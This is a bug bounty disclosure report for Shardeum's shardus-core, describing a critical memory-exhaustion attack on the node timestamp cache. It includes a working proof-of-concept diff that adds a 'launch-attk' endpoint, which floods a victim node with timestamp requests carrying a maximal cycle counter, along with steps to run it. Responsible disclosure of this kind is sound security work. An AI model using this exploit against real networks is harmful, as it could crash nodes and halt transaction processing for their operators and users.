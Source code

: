 # 33963 - \[BC - Critical] Crashing the network by filling timestamp cache...

Submitted on Aug 3rd 2024 at 01:20:11 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33963

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:

* Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours
* Network not being able to confirm new transactions (total network shutdown)

## Description

## Description

In shardus/core there is network generated timestamp for transactions. Nodes hold these timestamp in a cache. When node do cache ask, if the cache is hit, it'll get back a timestamp but if a cache is a miss, the node will generate a new timestamp and store it in the cache. The cache is unlimited sized JSON blob. Attack can abuse this behavior of nodes by asking for timestamp of a non-existent transaction. This will cause the node to generate a new timestamp and store it in the cache. The attacker can keep doing this until the cache can't keep up with maximum system memory available and the node will crash. There is cache cleaning mechanism where it clear all the entry from old cycles, but it does not check the entry that are associated with future cycles. The attacker will leverage this by adding really large cycle counter to bypass the cache pruning mechanism. This attack only need single malicious node.

## References

* [Timestamp Cache askBinary occurance](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L1081-L1092)
* [Timestamp Cache Endpoint Handler at the receiver node](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L283-L330)
* [Create new entry in the cache if it's not seen](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/state-manager/TransactionConsensus.ts#L315)

## Proof of Concept

Since we're going to overload the system by filling main memory (RAM), testing the POC in local is not suitable because as victim node hold more memory the local system will be unstable and attacking node can crash itself. So, we need to test this in a realistic WAN environment.

* Have a legit network launch in a WAN environment with multiple nodes, with their own WAN IPs.
* Apply the patch to the malicious node. shardus/core

```diff
diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..d01a1f60 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+
 
 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,44 @@ class NestedCounters {
   }
 
   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk',(req, res)=>{
+
+            const victim = req.query.victim as string
+         
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+          const cycleCounter = 4294967295 
+
+          setInterval(()=>{
+
+            const promises = []
+
+
+            for( let i = 0; i < 800; i++){
+              promises.push(Context.p2p.askBinary<getTxTimestampReq, getTxTimestampResp>(
+                node,
+                InternalRouteEnum.binary_get_tx_timestamp,
+                {
+                  cycleMarker,
+                  cycleCounter,
+                  txId: crypto.randomBytes(254).toString(),
+                },
+                serializeGetTxTimestampReq,
+                deserializeGetTxTimestampResp,
+                {}
+              ))
+            }
+
+
+            Promise.allSettled(promises).then((results) => {
+            })
+          }, 1000)
+
+          res.send(JSON.stringify(node))
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')
 
```

* Link it to the shardeum
* Run the malicious node, stake it and let it go active
* Grab the id of the victim node
* do a get request to malicious node such that `GET http://<malicious-node-ip>:<malicious-node-port>/launch-attk?victim=<victim-node-id>`
* The victim node system memory usage will grow indefinitely and eventually crash.
* Can observe using system manager inspector tool like top, htop, etc.
* Or alternatively you can see it at `GET http://<victim-node-ip>:<victim-node-port>/memory` (this statistic endpoint only available in debug mode)

## Impact

This POC proof not only crashes the a single node but a little code modification can target the whole network.
